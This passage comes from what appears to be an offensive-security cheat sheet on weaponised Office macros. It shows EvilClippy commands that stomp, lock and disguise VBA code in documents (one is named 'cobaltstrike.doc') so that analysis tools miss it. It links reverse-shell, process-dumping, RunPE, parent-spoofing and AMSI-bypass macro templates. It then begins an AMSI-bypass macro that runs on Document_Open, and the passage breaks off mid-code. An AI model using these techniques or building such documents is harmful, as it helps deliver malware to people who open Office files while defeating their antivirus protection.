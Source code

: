 
### EvilClippy

> Evil Clippy uses the OpenMCDF library to manipulate CFBF files. 
> Evil Clippy compiles perfectly fine with the Mono C# compiler and has been tested on Linux, OSX and Windows.
> If you want to manipulate CFBF files manually, then FlexHEX is one of the best editors for this.

```ps1
# OSX/Linux
mcs /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 
# Windows
csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs 

EvilClippy.exe -s fake.vbs -g -r cobaltstrike.doc
EvilClippy.exe -s fakecode.vba -t 2016x86 macrofile.doc
EvilClippy.exe -s fakecode.vba -t 2013x64 macrofile.doc

# make macro code unaccessible is to mark the project as locked and unviewable: -u
# Evil Clippy can confuse pcodedmp and many other analysis tools with the -r flag.
EvilClippy.exe -r macrofile.doc
```


## VBA - Offensive Security Template

* Reverse Shell VBA - https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell/blob/main/VBA-Reverse-Shell.vba
* Process Dumper - https://github.com/JohnWoodman/VBA-Macro-Dump-Process
* RunPE - https://github.com/itm4n/VBA-RunPE
* Spoof Parent - https://github.com/py7hagoras/OfficeMacro64
* AMSI Bypass - https://github.com/outflanknl/Scripts/blob/master/AMSIbypasses.vba
* amsiByPassWithRTLMoveMemory - https://gist.github.com/DanShaqFu/1c57c02660b2980d4816d14379c2c4f3
* VBA macro spawning a process with a spoofed parent - https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba

## VBA - AMSI

> The Office VBA integration with AMSI is made up of three parts: (a) logging macro behavior, (b) triggering a scan on suspicious behavior, and (c) stopping a malicious macro upon detection. https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/


![](https://www.microsoft.com/security/blog/wp-content/uploads/2018/09/fig2-runtime-scanning-amsi-8-1024x482.png)

:warning: It appears that p-code based attacks where the VBA code is stomped will still be picked up by the AMSI engine (e.g. files manipulated by our tool EvilClippy).

The AMSI engine only hooks into VBA, we can bypass it by using Excel 4.0 Macro

* AMSI Trigger - https://github.com/synacktiv/AMSI-Bypass

```vb
Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProtect As Long, lpflOldProtect As Long) As Long
Private Declare PtrSafe Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)
 
Private Sub Document_Open()
    Dim AmsiDLL As LongPtr
    Dim AmsiScanBufferAddr As LongPtr
    Dim result As Long
    Dim MyByteArray(6) As Byte
```